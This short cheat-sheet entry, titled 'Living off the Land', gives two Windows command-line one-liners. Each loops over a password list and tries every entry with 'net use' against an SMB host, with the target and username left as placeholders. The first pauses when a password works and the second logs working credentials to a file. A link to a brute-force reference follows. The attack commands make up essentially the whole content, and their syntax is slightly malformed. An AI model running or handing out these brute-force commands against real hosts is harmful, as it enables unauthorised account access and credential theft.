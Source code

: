 # Living off the Land

```
C:\> for /f in %i in passwords.lst do @echo %i & @net use \\<IP> %i /u:<username> 2>null && pause

C:\> for /f in %i in passwords.lst do @echo %i & @net use \\<IP> %i /u:<username> 2>null && echo <username>: %i >> output.txt
```

---
## References

- [Pwnage Base: Brute Force](https://pwn.no0.be/exploitation/password/smb/)